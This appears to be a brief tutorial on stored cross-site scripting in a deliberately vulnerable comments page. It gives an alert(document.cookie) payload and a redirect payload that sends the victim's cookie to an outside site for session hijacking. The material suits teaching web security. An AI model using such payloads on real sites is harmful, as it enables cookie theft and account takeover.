





I created a real comments section where you can add comments to the database.

The expected input is text without any malicious HTTP conttolling characters present in it. When you add a
comment here, it's stored in the backend database. So, everytime you revisit the page, it gets executed.
You can introduce a script like alert(document.cookie), to display cookie as an alert on the webpage.


But it can also be used to cause far more damage by redirecting the victims to a malicious site along with
their cookie.
You can do this by adding a script in the comment like
"window.location = 'https://suchitreddi.github.io?cookie=' + document.cookie"


This stolen cookie will be logged by the server logs of that malicious site, which will then be further
used for attacks like session hijacking.